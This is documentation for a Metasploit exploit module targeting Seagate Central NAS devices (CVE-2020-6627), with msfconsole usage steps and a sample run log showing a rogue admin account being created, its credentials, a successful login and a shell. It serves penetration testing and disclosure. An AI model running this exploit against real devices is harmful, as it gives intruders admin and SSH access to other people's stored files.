 ## Description
This module exploits the broken access control vulnerability in Seagate Central External NAS Storage device. (CVE-2020-6627)
Subject product suffers several critical vulnerabilities such as broken access control. It makes it possible to change the device state 
and register a new admin user which is capable of SSH access.

## Vulnerable Application 
Seagate Central is your personal cloud, providing a centralized location to store your files
from your Windows and Mac, mobile devices, and social networks. Play movies and music
and view photos from Seagate Central throughout your home on your smart TV, game
console, and tablet, and on an Internet-connected mobile device while on the road. With
Seagate Central, you can keep your digital life centralized and organized. 
read more : https://www.seagate.com/files/www-content/support-content/external-products/seagate-central/en-us/seagate-central-user-guide-us.pdf

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/seagate_central_ssh_user_add`
  4. Do: `set rhost <ip>`
  5. Do: `check`
```
[+] 192.168.1.20:80 The target is vulnerable.
```

## Scenarios
```
msf5 > use exploit/linux/http/seagate_central_ssh_user_add 
msf5 exploit(linux/http/seagate_central_ssh_user_add) > set rhost 192.168.1.27
rhost => 192.168.1.27
msf5 exploit(linux/http/seagate_central_ssh_user_add) > run

[*] Current device state: social
[+] State successfully changed !
[*] Creating new admin user...
[*] User: jesse3233
[*] Pass: OdSvdFcT
[+] 192.168.1.27:80 - Login Successful (jesse3233:OdSvdFcT)
[*] Found shell.

id
uid=1001(jesse3233) gid=1001
```
